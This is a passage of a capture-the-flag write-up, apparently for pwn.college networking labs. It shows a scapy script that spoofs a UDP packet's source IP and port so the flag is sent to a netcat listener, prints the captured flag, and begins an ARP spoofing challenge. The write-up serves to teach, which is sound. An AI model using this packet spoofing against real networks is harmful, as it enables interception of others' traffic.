 ```py title="/challenge/run" showLineNumbers
            time.sleep(1)
            try:
                client_socket.sendto(b"ACTION?", ("10.0.0.3", 31337))
                message, (peer_host, peer_port) = client_socket.recvfrom(1024)
                if peer_host == "10.0.0.3" and peer_port == 31337 and message.startswith(b"FLAG"):
                    _, flag_host, flag_port = message.strip().split(b":")
                    client_socket.sendto(flag.encode(), (flag_host, int(flag_port)))
            except (ConnectionError, ValueError):
                continue

user_host = Host("ip-10-0-0-1", privileged_uid=parent_process.uids().effective)
client_host = ClientHost("ip-10-0-0-2")
server_host = ServerHost("ip-10-0-0-3")
network = Network(hosts={user_host: "10.0.0.1", client_host: "10.0.0.2", server_host: "10.0.0.3"}, subnet="10.0.0.0/24")
network.run()

user_host.interactive(environ=parent_process.environ())
```

Now, you must spoof both the source IP and port to make it appear as if the packet came from `10.0.0.3:31337`.

Our code from the last challenge should work here as well.

```
root@ip-10-0-0-1:/# nc -u -lvp 9999 &
[1] 751
```

```py
In [1]: from scapy.all import *
   ...: 
   ...: for port in range(32768, 61000):
   ...:     pkt = IP(src="10.0.0.3", dst="10.0.0.2") / UDP(sport=31337, dport=port) / Raw(load="FLAG:10.0.0.1:9999")
   ...:     send(pkt, verbose=0)
   ...: 
nc: getnameinfo: Temporary failure in name resolution
pwn.college{sRelbVQeI3jCMhBSrRS21P2Rv_k.QX3QDM2EDL4ITM0EzW}
```

&nbsp;

## ARP

> Manually send an Address Resolution Protocol packet. The packet should inform the remote host that the IP address `10.0.0.42` can be found at the Ethernet address `42:42:42:42:42:42`. The packet should be sent to the remote host at `10.0.0.2`.

### Source code
```py title="/challenge/run" showLineNumbers
#!/usr/bin/exec-suid --real -- /usr/bin/python -I

import os

import psutil
import scapy.all as scapy
from dojjail import Host, Network

WHO_HAS = 1
IS_AT = 2

flag = open("/flag").read()
parent_process = psutil.Process(os.getppid())

```